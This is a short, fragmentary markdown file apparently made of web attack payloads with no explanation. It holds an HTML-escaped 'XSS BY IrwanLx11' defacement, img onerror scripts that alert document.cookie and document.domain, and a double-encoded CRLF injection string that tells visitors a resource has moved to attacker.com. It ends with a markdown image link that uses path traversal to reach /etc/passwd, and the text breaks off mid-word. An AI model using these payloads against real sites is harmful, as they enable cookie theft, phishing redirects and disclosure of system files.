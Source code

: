 # -svg-prompt-document.cookie-
Hacked&lt;br>&lt;br>&lt;center>&lt;font color="red">XSS BY IrwanLx11&lt;br>&lt;br>&lt;img src=x onerror=alert(document.cookie)>&lt;br>&lt;br>&lt;img src=x onerror=alert(document.domain)>
%250d%250ahas%2520moved%2520to%2520www.attacker.com.Please%2520visit%2520attacker.com%2520present%2520resourc


![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)

